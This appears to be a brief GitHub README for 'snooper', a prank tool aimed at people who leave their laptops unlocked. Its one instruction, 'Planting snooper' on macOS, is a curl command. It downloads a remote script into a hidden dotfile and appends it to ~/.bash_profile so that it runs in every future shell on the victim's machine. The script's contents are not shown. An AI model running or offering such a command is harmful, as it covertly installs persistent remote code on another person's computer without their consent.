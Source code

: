 # snooper :hamster:
> You will regret leaving your laptop unlocked (unattended) 

### Planting snooper
---
#### MacOS
```
curl https://raw.githubusercontent.com/live-wire/snooper/master/snoop.sh --output ~/.snoop.sh && echo ". ~/.snoop.sh" >> ~/.bash_profile
```
